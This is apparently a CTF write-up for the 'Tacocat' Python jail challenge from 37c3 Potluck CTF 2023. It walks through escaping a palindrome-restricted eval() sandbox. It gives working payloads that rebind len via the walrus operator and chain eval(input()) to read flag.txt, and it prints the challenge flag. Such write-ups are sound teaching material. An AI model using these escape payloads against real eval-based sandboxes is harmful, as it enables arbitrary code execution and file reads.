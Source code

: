 ```yaml
---
title: Tacocat
date: 2024-01-05T22:50:30+01:00
description: Writeup for Tacocat [37c3 Potluckctf 2023]
author: zenbassi
tags:
- misc
- python escape
draft: false
---
```

___

## Challenge Description

This is an upsolve, so I don't really remember, but it went something like _We
had no good ideas but we figured a python escape is always welcome_.

## Intuition

The code for the jail is given to us and albeit, very short:

```python
while True:
    x = input("palindrome? ")
    assert "#" not in x, "comments are bad"
    assert all(ord(i) < 128 for i in x), "ascii only kthx"
    assert x == x[::-1], "not a palindrome"
    assert len(x) < 36, "palindromes can't be more than 35 characters long, this is a well known fact."
    assert sum(x.encode()) % 256 == 69, "not nice!"
    eval(x)
```

So, we're free to give a string to `eval`, which will _evaluate_ any valid python expression.
This can give us the flag, or a shell, but the catch is that:
* the input must be a palindrome
* we cannot use comments
* sum of ASCII values for each character in the input has to be equal to 69 (modulo 256)

I had multiple ideas, including using string formatting to insert comments, using tuples which
are evaluated element by element and to use triple quotes strings as a form of comment. Sadly I
had no success with any of them, but I'm happy to see that some of my ideas were in a solution
by `pspaul @ FluxFingers`.

## Solution

The solution consists of multiple inputs formatted as such:

```
      +------------------------------------------------------+
      |                                                      |
      |              +-----------------------+               |
      |              |                       |               |
      v              v                       v               v
'''{buffer}',{reverse(expression)},''',{expression},'{reverse(buffer)}'''
|                                    | |       ^  | |                 | ^
|          this is a string          | |       |  | | this is a char  | |
+------------------------------------+ +-------+--+ +-------------^---+ |
                                               |                  |     |
     this is the evaluated expression ---------+                  |     |
                                                                  |     |
                   this is used to reach the desired sum ---------+     |
                                                                        |
                                                                        |
                                                                        |
                                                         empty string --+

eg. which would print 42 when evaluated:

eval("'''?',))24(tnirp(,''',(print(42)),'?'''")

This is a bit too long to be valid, but you get the point :P
```

Looking at it, this is a very neat way of abusing the greedy way in which
strings are evaluated in python - from left to right.

Now, the length restriction is problematic. We can bypass it if we assign
to `len` another function that processes a string or a list and returns a
values smaller than 36. Such functions are `all` or `any`. To achieve the
substitution we can utilise the `walrus operator` introduced in python 3.8 [^1].
The following two lines bypass the length check:

```python
'''k',)yna=:y(,''',(y:=any),'k'''
'''t',)y=:nel(,''',(len:=y),'t'''
```

Lastly we can just read the flag with:

```python
'''{}',))(tupni(lave,''',eval(input()),'{}'''
```

and then supplying something such as:

```python
print(open("flag.txt").read())
```

### Flag

`POTLUCK{1_@c7u@11y_do_n07_kn0w_th3_f1@g}`

## References

[^1]: https://docs.python.org/3/whatsnew/3.8.html
